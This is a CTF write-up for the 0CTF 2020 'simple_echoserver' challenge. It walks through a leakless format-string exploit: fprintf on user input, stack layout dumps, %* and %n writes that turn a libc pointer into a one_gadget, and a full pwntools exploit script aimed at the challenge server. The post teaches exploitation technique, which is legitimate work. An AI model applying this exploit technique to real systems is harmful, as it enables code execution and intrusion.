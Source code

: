 ```yaml
---
layout: "post"
title: "Writeup for Simple Echo Server 0ctf 2020"
date: 2020-7-02
tags: [Format Strings, CTF]
---
```


We had great time playing this year's edition of 0CTF 2020. I was mostly working on the challenge **simple\_echoserver** which was a fairly simple stack based challenge, but required lot of brute forcing. Sadly , we couldn't hit the bruteforce on server. Nevertheless , here's the intended solution for the challenge.

## TL;DR OF THE CHALLENGE BINARY

We've been provided with standard *x86 64-bit Dynamically Linked* binary along with *glibc 2.27* to start with.

Here's what **checksec** has to say -

```py
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Let's reverse this now.

## REVERSING

The binary is a fairly simple one asking us for **name** and **phone number** which it stores on stack and then performs **fprintf** of name through stderr. An important thing to note is that *stderr is being directed to /dev/null* on server and hence the binary won't print out name , thereby preventing leaks.

The bug lies in the fprintf where we encounter the infamous **Format String Vulnerability**.

The function asking for Details ->

```c
 puts("For audit, please provide your name and phone number: ");
  printf("Your name: ");
  read_name((_BYTE *)a1, 256);
  printf("Your phone: ", 256LL);
  result = read_num();
  *(_QWORD *)(a1 + 256) = result;
  return result;

```

This is the function which contains our vulnerable fprintf

```c
 snprintf((char *)0x555555558060LL, 0x100uLL, "[USER] name: %s; phone: %ld\n", a1, *(_QWORD *)(a1 + 256));
  return fprintf(MEMORY[0x555555558040], (const char *)0x555555558060LL);
```

After this , the program loops and echo's whatever we give as input without any vulnerabilities.

```c
    puts("Now enjoy yourself");
    while(1)
    {
        read_name(&s1,256);
        if(!strcmp(&s1,"~."))
            break;
        printf("%s",&s1);
    }
```

## EXPLOIT IDEA AND ANALYSIS

Well , initially we planned to do File Structure overwrite by corrupting stderr's *file_no* field with **1** and calling main again would print leaks. But that method looked very cumbersome as it required lots of bruteforcing.

Hence the intended solution is to pop pyell leaklessly.

Let us notice stack at the instance of calling vulnerable printf.

```py

0000| 0x7fffffffebf8 --> 0x55555555541a (nop)
0008| 0x7fffffffec00 --> 0x0 
0016| 0x7fffffffec08 --> 0x555555558160 --> 0x6161616161 ('aaaaa') ->Input
0024| 0x7fffffffec10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64) ->Main's RBP
0032| 0x7fffffffec18 --> 0x555555555443 (lea    rdi,[rip+0xc5b]        # 0x5555555560a5)
0040| 0x7fffffffec20 --> 0x0 
0048| 0x7fffffffec28 --> 0x0 
0056| 0x7fffffffec30 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0064| 0x7fffffffec38 --> 0x7ffff7dcfa00 --> 0xfbad208b 
0072| 0x7fffffffec40 --> 0xd68 ('h\r')
0080| 0x7fffffffec48 --> 0x7ffff7a71148 (<_IO_file_underflow+296>:	test   rax,rax)
0088| 0x7fffffffec50 --> 0xf705fa00 
0096| 0x7fffffffec58 --> 0xffffffffffffffff 
0104| 0x7fffffffec60 --> 0x5555555550f0 (endbr64)
0112| 0x7fffffffec68 --> 0xa ('\n')
0120| 0x7fffffffec70 --> 0x7fffffffed10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0128| 0x7fffffffec78 --> 0x5555555550f0 (endbr64)
0136| 0x7fffffffec80 --> 0x7fffffffee30 --> 0x1 
0144| 0x7fffffffec88 --> 0x0 
0152| 0x7fffffffec90 --> 0x0 
0160| 0x7fffffffec98 --> 0x555555555348 (mov    rcx,QWORD PTR [rbp-0x18])
0168| 0x7fffffffeca0 --> 0x7ffff7dcfa00 --> 0xfbad208b 
0176| 0x7fffffffeca8 --> 0x7fffffffecb3 --> 0xffee300000000000 
0184| 0x7fffffffecb0 --> 0x333231 ('123') -> Phone Number
0192| 0x7fffffffecb8 --> 0x7fffffffee30 --> 0x1 

0208| 0x7fffffffecc8 --> 0x7ffff7a723f2 (<_IO_default_uflow+50>:	cmp    eax,0xffffffff)
0216| 0x7fffffffecd0 --> 0x36 ('6')
0224| 0x7fffffffecd8 --> 0x555555558165 --> 0x0 
0232| 0x7fffffffece0 --> 0x7fffffffed10 --> 0x7fffffffed30 --> 0x7fffffffed50 --> 0x5555555554e0 (endbr64)
0240| 0x7fffffffece8 --> 0x55555555528d (mov    r12d,eax)
0248| 0x7fffffffecf0 --> 0x10055556029 



```

If we close analyse address **0x7fffffffeca8** which also contains a stack pointer **0x7fffffffecb3**, we see that we can control it with the Phone Number that we give as input , so if we give the phone number of *length* **24**  , then we can make that pointer point to a libc address.

```py
0176| 0x7fffffffeca8 --> 0x7fffffffecc8 --> 0x7ffff7a72300 (<_IO_doallocbuf>:	cmp    QWORD PTR [rdi+0x38],0x0)
0184| 0x7fffffffecb0 ('0' <repeats 24 times>) -> Phone Number of length 24
0192| 0x7fffffffecb8 ('0' <repeats 16 times>)
0200| 0x7fffffffecc0 ("00000000")
0208| 0x7fffffffecc8 --> 0x7ffff7a72300 (<_IO_doallocbuf>:	cmp    QWORD PTR [rdi+0x38],0x0)

```

Now that we have a libc address , we now corrupt it to point to one_gadget and pivot stack by corrupting rbp
to point to one_gadget to grant us shell.

After a few attempts , **0xe5863** magic address satisfies and we get shell.

But how do we write one_gadget number of bytes to that address?

We can use `%*` format string which is actually used for picking arguments from stack.

If we can pick arguments from stack , we can add them to constant numbers and get to one_gadget.
{: .notice}

So now the plan is , 

1. Corrupt rbp to point to our supposed one_gadget.
2. Find the difference between the libc address on stack and one_gadget. This is the number of bytes we need to add to our libc address which we will do with `%*`.
3. We calculate the offset and number of bytes to be added and finally use %n to store the result of addition back in the pointer we have to corrupt.


Here's the exploit script.

```py
from pwn import *
import sys

HOST = 'pwnable.org'
PORT = 12020
LIBC = ELF("./libc.so.6",checksec = False)
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
    context.noptrace=True
else:
    io=process('./simple_echoserver',env = {"LD_PRELOAD" : "./libc.so.6"},stderr = open('/dev/null','w+'))

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)
#b*0x5555555554d0

#'%*76$d' + '%73$n')

if __name__=="__main__":
    gdb.attach(io,"""
            b fprintf
            c
            """)
    #rbp is stored at 7th offset , the libc address is stored at offset 30 and the pointer to libc address is stored at 26th offset
    sla("Your name: ", '%3c' + '%7$hhn' + '%357715c' + '%*30$c' + '%26$n')
    sla('phone: ','0'*24) #To get pointer to libc address
    sla('yourself!\n','a')
    sl('~.')
    io.interactive()
```

## CONCLUSION

The challenge has unintended solutions which deal with exploiting **vfprintf** which Ill not be looking into as for now.

Simple challenge with complex tricks , kudos to 0CTF for such a challenge.



